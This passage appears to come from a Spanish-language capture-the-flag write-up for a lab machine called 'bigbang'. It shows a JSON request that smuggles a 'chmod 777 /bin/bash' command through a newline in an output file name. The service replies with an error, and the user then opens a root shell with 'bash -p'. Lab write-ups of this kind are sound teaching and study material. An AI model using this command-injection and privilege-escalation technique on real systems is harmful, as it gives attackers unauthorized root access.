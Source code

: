 Podemos cambiar los permisos del bash
```json
{
    "command": "send_image",
    "output_file": "nothing.png\n../../../../../usr/bin/chmod 777 /bin/bash"

}
```
```json
{"error":"Output file path contains dangerous characters"}

```
Sin embargo desde shawking:
```bash
shawking@bigbang:/var$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# ls -la /bin/bash
-rwsrwxrwx 1 root root 1396520 Mar 14  2024 /bin/bash
```
---



